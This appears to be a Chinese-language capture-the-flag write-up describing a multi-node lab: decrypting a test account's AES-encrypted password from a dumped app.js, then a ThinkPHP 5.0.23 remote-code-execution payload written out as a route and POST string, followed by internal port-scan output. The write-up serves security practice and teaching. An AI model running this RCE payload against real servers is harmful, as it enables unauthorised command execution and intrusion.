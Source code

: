 ![img](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-473ef4a127bdf6e2671864bcf40a895981090be6.png)

可以在dump出流量的app.js看到有encrypt函数，是进行了aes然后base64的加密，iv是传入进来的s，key是传入进来的t，e是未加密的原文，我们追踪一下，是u函数调用的，往上看看；

![img](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-67cfff2e61b40608be99c32f128d0c3ee679e7a7.png)

发现了，是在doLogin函数对传入的password进行了字符串拼接，然后加密，看看r，a，n分别是什么：

![img](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-5c3c3b28c0abe66eebc6245ba252ca883a6a30c5.png)

可以看到r是一个时间相关的字符串拼接，动态的；a是l的值，n是c的值，应该分别是key和iv

![img](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-4d76ea8a7913d9dba0bff3067053eae724d9ee5f.png)

![img](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-bde78cedeb51b002ba421e2d019b997b053853d5.png)

现在知道密文和key和iv，因此解密起来就十分容易了，test账号的密码是nsfo@#$23d^^fsf%h(()jcus：

![img](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-2c5b98caf55251a1d32196b51884c7c0a6240bf1.png)

多节点三 | thinkphp+内网 | **8.130.183.18**
-------------------------------------

记：当时打红温了，脑子比较混乱，隧道搭建的思路也没有理清，导致没去打内网。后面尝试外网靶机的各种提权，没成功?

### flag01-thinkphp5的RCE

入口节点直接扫就是一个thinkphp5023-method-rce-poc1，具体的攻击方式如下，路由是/index.php?s=captcha，post数据是method=construct&amp;filter\[\]=system&amp;method=GET&amp;get\[\]=ls，其中get\[\]那里是传入的参数，filter\[\]那里是函数名：

![img](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-9dea2c18831d2a34a68428da5c5ffb15dd95751a.png)

![img](https://shs3.b.qianxin.com/attack_forum/2024/04/attach-d35b88083017348e1ae23105150941c939e32f72.png)

后面内网网段的扫描，由于红温隧道没搭成，所以没去打

```php
(icmp) Target 172.28.23.26    is alive

(icmp) Target 172.28.23.33    is alive

(icmp) Target 172.28.23.17    is alive

\[\*\] Icmp alive hosts len is: 3

172.28.23.26:21 open

172.28.23.33:22 open

172.28.23.26:22 open

172.28.23.17:22 open

172.28.23.26:80 open

172.28.23.17:80 open

172.28.23.17:1080 open

172.28.23.33:8080 open

172.28.23.17:8080 open

172.28.23.33:59696 open

\[\*\] alive ports len is: 10
```